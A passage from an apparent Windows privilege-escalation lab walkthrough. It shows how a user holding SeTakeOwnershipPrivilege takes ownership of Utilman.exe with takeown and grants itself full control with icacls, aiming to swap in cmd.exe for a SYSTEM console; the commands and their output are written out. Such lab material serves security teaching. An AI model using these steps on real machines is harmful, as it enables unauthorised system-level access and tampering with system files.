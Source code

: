 ### **SeTakeOwnership**

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys. For example we can take ownership of a service executable that runs with SYSTEM privileges.

In this scenario, we will abuse `Utilman.exe` (ease of access) by replacing it with cmd.exe to get a console with system privileges.

```bash
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled

```

since we have SeTakeOwnershipPrivilege privileges, we can take the ownership using this command 

```bash
C:\Windows\system32>takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".

C:\Windows\system32>
```

**Note** that taking ownership doesn't mean you have privileges over it, but you can assign yourself any privileges you need on it.

```bash
C:\Windows\system32>icacls Utilman.exe
Utilman.exe NT SERVICE\TrustedInstaller:(F)
            BUILTIN\Administrators:(RX)
            NT AUTHORITY\SYSTEM:(RX)
            BUILTIN\Users:(RX)
            APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
            APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)

Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>icacls Utilman.exe  /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>icacls Utilman.exe
Utilman.exe WPRIVESC2\THMTakeOwnership:(F)
            NT SERVICE\TrustedInstaller:(F)
            BUILTIN\Administrators:(RX)
            NT AUTHORITY\SYSTEM:(RX)
            BUILTIN\Users:(RX)
            APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
            APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)

Successfully processed 1 files; Failed processing 0 files
```

